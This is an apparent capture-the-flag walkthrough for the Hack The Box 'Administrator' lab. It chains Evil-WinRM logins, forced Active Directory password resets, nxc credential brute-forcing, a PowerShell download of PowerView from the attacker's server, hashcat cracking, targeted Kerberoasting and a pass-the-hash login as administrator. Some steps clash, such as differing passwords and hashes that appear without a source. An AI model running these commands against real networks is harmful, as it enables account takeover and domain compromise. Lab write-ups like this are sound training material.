

HTB Administrator Machine Walkthrough: Step-by-Step Guide
Welcome to this step-by-step hacking guide! In this post, we will walk you through the process of compromising the Administrator machine. Follow these steps carefully to understand how to exploit the machine and gain administrative privileges.
Step 1: Initial Access
Getting initial access for this machine provided by Hack The Box.
Username: Olivia
Password: ichliebedich
Step 2: Connect with Evil-Winrm and Enumerate Other Users
Connect to the remote shell using the provided username and password.
Command: evil-winrm -i 10.10.11.42 -u 'Olivia' -p 'ichliebedich'
Use the net user command to list all users by executing the net user command in the remote machine's PowerShell.
Command: net users
Step 3: Force Change Michael's password
Change the michael password with the following command in the remote machine's PowerShell.
Command: net user michael Password123
Username: michael
Password: Password123
Step 4: Connect with Evil-Winrm
Connect to the remote shell using the obtained username and password.
Command: evil-winrm -i 10.10.11.42 -u 'michael' -p 'Password123'
Step 5: Dump AD Json using Bloodhound Python and Analysis
Dump data for BloodHound analysis to find potential attack paths within the Active Directory.
Command: bloodhound-python -v -u Olivia -p ichliebedich -ns 10.10.11.42 -d administrator.htb -c All
Step 6: Force Change Password
Force Change Password of a Benjamin Account Using Linux Command.
Command: net rpc password "benjamin" "Batman@123" -U "administrator.htb"/"michael"%"Password123" -S "administrator.htb"
Username: Benjamin
Password: Batman@123
Step 7: SMB Client Authentication
Verify User Using SMB Client Authentication
Command: smbclient -L administrator.htb -U Benjamin
Command: smbclient //administrator.htb/IPC$ -U benjamin
List all the Available Shares for the Perticular User.
Command: smbmap -H 10.10.11.42 -u 'benjamin' -p 'Batman@123'
Step 8: SMBMap.
List all the Available Shares for the Perticular User.
Command: smbmap -H 10.10.11.42 -u 'benjamin' -p 'Batman@123'
Step 9: Optional Steps
Move file to remote machine, first run python web server and use Invoke command to download file from python server.
Command: python3 -m http.server 8000
Run the following on Powershell to download the file.
Command: Invoke-WebRequest -Uri http://10.10.14.73:8000/powerview.ps1 -OutFile C:\Users\michael\Downloads\powerview.ps1
Importing Powerview module.
Command: Import-Module .\powerview.ps1
Step 10: SMB Bruteforcing.
SMB Username and Password Bruteforcing using nxc.
Command: nxc smb 10.10.11.42 -u /home/kali/Username.txt -p /home/kali/Password.txt --continue-on-success
Valid Credentials
User 1: administrator.htb\olivia:ichliebedich
User 2: administrator.htb\michael:Password123
User 3: administrator.htb\benjamin:Batman@123
Step 11: LDAP Bruteforcing.
LDAP Username and Password Bruteforcing using nxc.
Command: nxc ldap 10.10.11.42 -u /home/kali/Username.txt -p /home/kali/Password.txt --continue-on-success
Valid Credentials
User 1: administrator.htb\olivia:ichliebedich
User 2: administrator.htb\michael:Password123
User 3: administrator.htb\benjamin:Batman@123
Step 12: Winrm Bruteforcing.
Winrm Username and Password Bruteforcing using nxc.
Command: nxc winrm 10.10.11.42 -u /home/kali/Username.txt -p /home/kali/Password.txt --continue-on-success
Valid Credentials
User 1: administrator.htb\olivia:ichliebedich (Pwn3d!)
User 2: administrator.htb\michael:Password123 (Pwn3d!)

Step 13: FTP Bruteforcing.
FTP Username and Password Bruteforcing using nxc.
Command: nxc ftp 10.10.11.42 -u /home/kali/Username.txt -p /home/kali/Password.txt --continue-on-success
Valid Credentials
User: administrator.htb\benjamin:Batman@123
Logging in with FTP and download the .psafe3 file.
Command: ftp benjamin@10.10.11.42
Command: get Backup.psafe3
Step 14: Decrypt Backup.psafe3 with Hashcat to get master password..
Decrypt the hash that we have downloaded from the FTP server using Hashcat.
Command: hashcat -m 5200 -a 0 Backup.psafe3 /usr/share/wordlists/rockyou.txt
Master Password: tekieromucho
Download Psafer file view and user the master password to view the Psafe file there you have find some users credentials.
Alexander Smith:
Username: alexander
Password: UrkIbagoxMyUGw0_xxx_B0AXSea4Sw
Emily Rodriguez:
Username: emily
Password: UXLCI5iETUsIBo_xxx_QFKoHjXmb
Emma Johnson:
Username: emma
Password: WwANQWnmJnGV07_xxx_bMS7FMAbjNur
Step 15: FTP Bruteforcing.
SMB Username and Password Bruteforcing using nxc to get valid credential from the above users that we have enumerated.
Command: nxc smb 10.10.11.42 -u /home/kali/Username.txt -p /home/kali/Password.txt --continue-on-success
Valid Credentials
Username: emily
Password: UXLCI5iETUs_xxx_VTj8yQFKoHjXmb
Step 16: Evil-WinRM Access
Use Evil-WinRM to connect to the machine as emily and get a user flag.
Command: evil-winrm -i 10.10.11.42 -u 'emily' -p 'UXLCI5iETUs_xxx_VTj8yQFKoHjXmb'
User Flag: 81adf62c90e62_xxx_370dcf42d89f198
Step 17: TargetedKerberoast Attack
Before startig we need to Synchronize administrator.htb NTP.
Command: apt install ntpdate

Command: sudo ntpdate administrator.htb

Perform a TargetedKerberoast Attack to get a Administrators TGT Token.
Command: python3 targetedKerberoast.py -v -d 'administrator.htb' -u 'emily' -p 'UXLCI5iETUsIBo_xxx_yQFKoHjXmb'

Step 18: Crack TGT Hash
Cracking TGT Hash using Hashcat.
Command: hashcat -m 13100 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
Username: administrator
Password: l_xxx_zkit
Ethan NTLM Hash: ethan:1113:aad3b435b51404eeaad3b435b51404ee:5c2b9f97e0620c3_xxx_e85a93179884
Administrator NTLM Hash: Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd2_xxx_e098d2d2fd2e
Step 19: Evil-WinRM Access
Use Evil-WinRM to connect to the machine as administrator and get a root flag.
Command: evil-winrm -i 10.10.11.42 -u 'administrator' -H '3dc553ce4b9fd2_xxx_e098d2d2fd2e'
Root Flag: dab35e1b8bb0_xxx_bc616e736ac24fe
--------------------------------------------------------------------------------> The End <------------------------------------------------------------------------------------